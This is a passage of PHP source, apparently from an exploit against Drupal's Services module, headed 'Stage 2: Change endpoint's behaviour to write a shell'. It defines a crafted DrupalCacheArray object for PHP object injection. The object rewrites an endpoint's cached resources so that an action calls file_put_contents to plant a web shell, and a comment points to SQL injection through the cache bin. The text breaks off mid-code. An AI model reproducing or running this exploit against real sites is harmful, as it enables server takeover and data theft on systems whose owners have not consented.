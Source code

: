 # Stage 2: Change endpoint’s behaviour to write a shell

class DrupalCacheArray

{

# Cache ID

protected $cid = “services:endpoint_name:resources”;

# Name of the table to fetch data from.

# Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()

protected $bin = ‘cache’;

protected $keysToPersist = [];

protected $storage = [];

function __construct($storage, $endpoint, $controller, $action) {

$settings = [

‘services’ => [‘resource_api_version’ => ‘1.0’]

];

$this->cid = “services:$endpoint:resources”;

# If no endpoint is given, just reset the original values

if(isset($controller))

{

$storage[$controller][‘actions’][$action] = [

‘help’ => ‘Writes data to a file’,

# Callback function

‘callback’ => ‘file_put_contents’,

# This one does not accept “true” as Drupal does,

# so we just go for a tautology
